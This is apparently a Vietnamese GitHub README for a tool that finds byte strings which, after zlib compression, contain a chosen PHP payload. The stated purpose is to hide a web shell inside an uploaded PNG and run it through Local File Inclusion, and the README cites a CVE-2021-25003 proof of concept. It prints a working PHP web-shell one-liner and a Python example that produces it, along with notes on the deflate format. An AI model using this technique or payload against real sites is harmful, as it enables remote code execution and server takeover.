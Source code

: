 # control_zlib_compression

## Main
Chức năng của code là tạo ra một đoạn byte mà khi `zlib.compress()` sẽ tạo được một substring chứa `payload` mong muốn. 

`zlib.compress()` được dùng trong file png do đó ta có context sử dụng như sau:
- Upload file ảnh png có payload mong muốn ví dụ như `<?=$_GET[1]($_POST[2]);?>`.
- Local File Include file ảnh đó.

Ví dụ với context trên:

```python
import zlib

zlib.compress(b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P') 
# Kết quả: b'x\x9cc^<?=$_GET[1]($_POST[2]);?>\x00\x00hi\x070'. Có chứa '<?=$_GET[1]($_POST[2]);?>'
```

Hoặc là với context PoC của [CVE-2021-25003](https://wpscan.com/vulnerability/5c21ad35-b2fb-4a51-858f-8ffff685de4a), có phần tìm một chuỗi hex khi compress sẽ chứa payload. Trong link thì tác giả không chỉ cách tìm ra chuỗi đó nên mình khá chật vật tìm hiểu để ~~chắp vá~~ viết ra code này.
![Oops](https://user-images.githubusercontent.com/91038460/209658753-5f66c4c3-f8af-4540-9929-31d55a990e85.png)

## Ý tưởng:
Vì zlib compression/decompression là quá trình không làm mất dữ liệu, nên nếu muốn tìm một đoạn byte mà compress ra đoạn code mong muốn thì mình sẽ decompress đoạn code đó để tìm đoạn byte. Do đó mình đi tìm hiểu về zlib compressed data format rồi cả cách implement quá trình decompression để theo ý muốn.

## Cách dùng:
Vào sửa biến `payload` rồi chạy code thôi 😉.
```Ruby
b'\x03\xa3\x9fgTo,$\x15+!g\x12To\x11.)\x15+\x19g"ko_P'

Double check
Yeah 🙂
```

Nếu chương trình bị lỗi hoặc in ra `Constraint may be violated` hoặc `Take a rest 🤕` thì có thể là code đã không cover được hết trường hợp 😭.

Ngược lại, dòng đầu tiên chính là chuỗi byte mà ta cần 😁

## Lưu ý:
Không phải tất cả payload đều hoạt động được, ví dụ ``<?=`$_GET[1]`;?>`` sẽ gây ra lỗi.

Điều kiện để code gặp ít lỗi nhất (nhưng vẫn sẽ có lỗi 🥲), nếu không thì sẽ phải tự sửa lại tùy payload 😿
1. Không dùng quá nhiều loại ký tự khác nhau trong payload.
2. Dùng payload càng ngắn càng tốt.
3. Mỗi substring độ dài 3 sau khi decompress() không xuất hiện quá 1 lần (Để đảm bảo BTYPE luôn bằng 1).
4. Nên để terminate_symbol như vậy.

## ~~Chép code~~ Tham khảo:
- https://calmarius.net/index.php?lang=en&page=programming%2Fzlib_deflate_quick_reference: Đây là nơi mình đọc về format của compressed data.
- https://pyokagan.name/blog/2019-10-18-zlibinflate/. Đây là link mình đọc về thuật toán sử dụng trong `zlib.compress()` và cả chép code nữa. 🦫

## Ghi chú cho sau này:
- Cái cây cần dùng cho debug khi `BTYPE=1` :)
![Oops](https://user-images.githubusercontent.com/91038460/209665780-a1483101-f2f8-4e34-a07e-ac95989c238a.png)
- Các phần được implement nhưng lại không dùng mà được để lại đề phòng sau này sẽ được comment là `# [skip me]`
- Điều kiện 1 được dùng để đảm bảo BTYPE không thể bằng 0.
- Điều kiện 2 được dùng để đảm bảo BTYPE không thể bằng 2.
- Điều kiện 3 được dùng để đảm bảo thuật toán LZ77 được dùng khi compress() không có tác dụng, do đó lúc decompress() cũng không có tác dụng.
- 27/12/2022: chỉ có 3 loại BTYPE 0, 1 và 2. Mình cố gắng để BTYPE = 1, 
      + là một giá trị cho phép hiệu quả về cả độ phức tạp và độ dài của payload và output.
      + mình cố gắng để BTYPE = 1 nhưng đoạn implement decompress() thì có cả code xử lý khi BTYPE = 0 hay 2 dùng để đề phòng cho sau này.
      + tương tự phần xử lý LZ77 ở trên cũng không có tác dụng nhưng sẽ được mình để lại.
